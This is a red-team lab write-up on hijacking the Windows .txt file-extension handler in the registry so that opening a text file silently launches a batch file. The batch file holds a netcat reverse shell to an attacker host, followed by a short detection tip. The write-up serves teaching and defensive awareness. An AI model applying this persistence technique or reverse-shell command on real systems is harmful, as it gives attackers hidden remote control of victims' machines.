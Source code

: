 ```yaml
---
layout: post
title: "hijacking default file extension"
date: 2024-06-18
categories: all_md_files
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /hijacking-default-file-extension/
---
```


---
layout: post
title: "hijacking default file extension"
date: 2024-06-18
categories: persistence
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /hijacking-default-file-extension/
---

# Hijacking Default File Extension

When a .txt file is double clicked, it's opened with a notepad.exe. Windows knows that it needs to use notepad.exe for opening txt files, because the `.txt` extension (among many others) are mapped to applictions that can open those files in Windows registry located at `Computer\HKEY_CLASSES_ROOT`.

It's possible to hijack a file extension and make it execute a malicious application before the actual file is opened.&#x20;

In this quick lab, I'm going to hijack the .txt extension - the victim user will still be able to open the original .txt file, but it will additionally fire a reverse shell back to the attacking system.

## Execution

The .txt extension handler is defined in the below registry key:

```erlang
Computer\HKEY_CLASSES_ROOT\txtfile\shell\open\command
```

Below shows that the command responsible for opening .txt files is `notepad.exe %1`, where `%1` is the argument for notepad.exe, which specifies a file name the notepad should open:

![](<../../.gitbook/assets/image (427).png>)

Say, a target user has the file test.exe on his desktop with the below file contents:

![](<../../.gitbook/assets/image (430).png>)

Let's now create a malicious file that we want to be executed when the user attempts to open the benign file test.txt. For this lab, the malicious file is going to be a simple Windows batch file located in c:\tools\shell.cmd:

{% code title="c:\tools\shell.cmd" %}
```erlang
start C:\tools\nc.exe 10.0.0.5 443 -e C:\Windows\System32\cmd.exe
start notepad.exe %1
```
{% endcode %}

![](<../../.gitbook/assets/image (429).png>)

Once executed, `c:\tools\hell.cmd` will launch a simple netcat reverse shell to the attacking system and also a notepad with the `test.txt` file as an argument.

We are now ready to hijack the .txt file extension by modifying the value data of  `Computer\HKEY_CLASSES_ROOT\txtfile\shell\open\command` to `c:\tools\shell.cmd %1` as shown below:

![](<../../.gitbook/assets/image (431).png>)

## Demo

Opening the test.txt file by double clikcing it opens the file itself, but a reverse shell is thrown to the attacking system as well:

![](../../.gitbook/assets/hijacked-extension.gif)

## Detection

Defenders may want to monitor registry for file extension command changes, especially if the data field contains binaries located in unusual places.

## References

{% embed url="https://attack.mitre.org/techniques/T1042/" %}
@spotheplanet
